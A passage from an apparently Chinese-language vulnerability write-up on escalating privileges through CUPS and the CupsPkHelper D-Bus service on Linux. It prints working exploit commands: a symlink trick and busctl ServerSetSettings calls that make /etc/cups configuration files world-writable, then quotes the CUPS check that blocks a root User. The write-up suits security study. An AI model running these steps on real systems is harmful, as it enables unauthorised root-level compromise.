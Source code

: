 **修改cups的配置文件属性**  
  
尽管在/tmp/目录下无法执行删除和修改操作，但AppArmor允许cupsd进程对/etc/cups目录下的文件进行修改。因此我们将目标改为修改文件  
/etc/cups/cupsd.conf属性：  
  
```
$ ln -s /etc/cups/cupsd.conf /tmp/stage/cupsd.conf
$ busctl call org.opensuse.CupsPkHelper.Mechanism / org.opensuse.CupsPkHelper.Mechanism ServerSetSettings a{ss} 1 "Listen" "/tmp/stage/cupsd.conf"
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxGEzDKtVnqYIQfGdNvx3aV1hXYaq5scu8B4zJKcqjJuOLMpemKUBmxtFFOVE8G2Bg87ArQesj9iapQ/640?wx_fmt=png&from=appmsg "")  
  
结果成功修改了文件的属性。  
  
接下来，直接修改文件/etc/cups/cupsd.conf，添加Listen项为/etc/cups/cups-files.conf，然后重启cups，从而修改/etc/cups/cups-files.conf文件的属性为全局可写。  
```
$ echo "Listen /tmp/stage/cups-files.conf" | tee -a /etc/cups/cupsd.conf > /dev/null
$ busctl call org.opensuse.CupsPkHelper.Mechanism / org.opensuse.CupsPkHelper.Mechanism ServerSetSettings a{ss} 1 "IdleExitTimeout" "61"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Pf9eicDVDMxGEzDKtVnqYIQfGdNvx3aV1eYNAs0F807icPvSuxxy8gSycrU1iacG4GjLDbmYdBianmeTKA1fsCWgRw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_svg/00GYaClAoOqqtuNmB7L4EHr0jFjRyyCu0TDDqtE2SfvmTYvEYJpC4yJPxpqW3fShf1EibJCOOgb5n8PCJm5gYRrIncvep5Cp0/640?wx_fmt=svg&from=appmsg "")  
  
**以任何非root用户权限的方式运行命令**  
  
/etc/cups/cups-files.conf是CUPS配置文件之一，其中包含了设置CUPS在执行外部程序时所使用的用户和组。在该文件中，  
User和  
Group选项指定了CUPS在执行外部命令时所使用的用户名和用户组。如下所示：  
  
```
Group group-name-or-number
        Specifies the group name or ID that will be used when executing external programs.         The default group is operating system specific but is usually "lp" or "nobody".
User username
        Specifies the user name or ID that is used when running external programs. The       default is "lp".
```  
  
  
这里默认在运行时的用户以及组为lp。作者尝试直接将用户设置为  
root，但是发现执行被拦截了，这是由于CUPS中以下的代码片段：  
  
```
      if (!p->pw_uid)
      {
        cupsdLogMessage(CUPSD_LOG_ERROR,                        
                "Will not use User %s (UID=0) as specified on line "
                "%d of %s for security reasons.  You must use a "
                "non-privileged account instead.",
                        value, linenum, CupsFilesFile);        
        if (FatalErrors & CUPSD_FATAL_CONFIG)          
        return (0);
      }
```  
  